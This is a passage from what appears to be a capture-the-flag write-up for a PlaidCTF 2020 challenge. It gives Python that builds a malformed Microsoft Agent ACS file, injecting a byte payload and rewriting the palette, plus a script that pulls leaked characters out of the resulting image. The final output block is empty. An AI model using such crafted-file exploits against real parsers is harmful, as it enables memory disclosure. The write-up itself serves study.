 ```
    # insert the payload in the newly inserted image
    payload = b'\x00@\x00\x04\x10\xd0\x90\x80B\xed\x98\x01\xb7\xfb\x9f\xff\xfb\xff\xff\xff\xff\xff\xff'
    for (ind, dat) in enumerate(payload):
        abc[new_img_pointer + 4 + 6 + ind] = dat

    # overwrite the palette information (after manually verifying that the
    # palette list holds 256 entries)
    for ind in range(256):
        x = character.palette_offset + 6 + ind * 4
        abc[x] = ind
        abc[x+1] = ind
        abc[x+2] = ind

    with open('exploit.acs', 'wb') as of:
        # convert the byte array to a byte string
        of.write(bytes(abc))
```

This yields the following output image:

![Image including flag](2020_plaidctf_bonzi_scheme_03.bmp)

The following script parses the image and outputs all printable ASCII characters:
```
from PIL import Image
import sys

fn = sys.argv[1]

img = Image.open(fn)
out = ""
for p in img.getdata():
    assert p[0] == p[1] and p[0] == p[2]
    c = p[0]
    if c < 32 or c >= 128:
        continue
    out += chr(c)
print(out)
```
Which yields the following:
```
```